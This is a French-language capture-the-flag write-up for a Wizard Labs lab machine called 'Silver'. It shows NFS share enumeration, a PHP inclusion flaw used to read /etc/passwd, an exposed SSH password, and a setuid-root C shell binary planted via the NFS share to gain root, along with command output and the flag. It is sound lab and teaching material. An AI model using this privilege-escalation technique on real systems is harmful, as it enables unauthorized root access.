 ```yaml
---
title: Solution du CTF Silver de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Bronze
------

*Silver* est un CTF de Wizard Labs annoncé avec une difficulté de 4/10.  

Premier élément qui fait tilter tout habitué des CTFs : la présence d'un partage NFS sur la machine :  

```plain
$ showmount -a 10.1.1.36
All mount points on 10.1.1.36:
10.28.12.6:/home/silver/nfs
```

On monte ce partage avec la commande *sudo mount 10.1.1.36:/home/silver/nfs /mnt/* mais il est vide.  

On se doute toutefois qu'on aura à y placer un binaire setuid plus tard :p   

Sur le site web de la box, [Wapiti](http://wapiti.sourceforge.net/) trouve différentes failles dans le paramètre *language* d'une même page (c'est la même faille mais découverte par trois biais différents) :  

* Divulgation de fichier si la valeur est */etc/passwd*
* Exécution de commande via un wrapper PHP (voir capture d'écran plus loin)
* Timeout si la valeur est *http://www.google.com/*

![Wizard Labs CTF Silver include() vulnerability Wapiti report](/assets/img/wizard-labs/silver_rce.png)

Autant dire qu'on a affaire à une faille d'inclusion PHP et que l'inclusion distante est activée.  

L'exploitation de cette vulnérabilité peut avoir bien des scénarios différents mais en fait si on lit */etc/passwd* on remarque une ligne explicite à la fin du fichier :  

> ssh password for silver: i'msilver

Gold
----

On obtient donc l'accès sur cette machine 32bits. On écrit le code suivant que l'on compilera avec *-m32* :  

```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        system("/bin/bash");
        return 0;
}
```

On le copie ensuite sur le partage NFS avec les droits root + setuid et c'est finit :  

```plain
silver@silver:~/nfs$ ls -l
total 652
-rwsr-xr-x 1 root root 664956 Feb 23 06:37 devloop
silver@silver:~/nfs$ ./devloop
root@silver:~/nfs# id
uid=0(root) gid=1000(silver) groups=1000(silver),4(adm),24(cdrom),30(dip),46(plugdev),109(lpadmin),125(sambashare)
root@silver:~/nfs# cd /root/
root@silver:/root# cat root.txt
3f3d93725cebd44cf7bb1fb327e8a0b1
```


*Published November 17 2020 at 14:08*
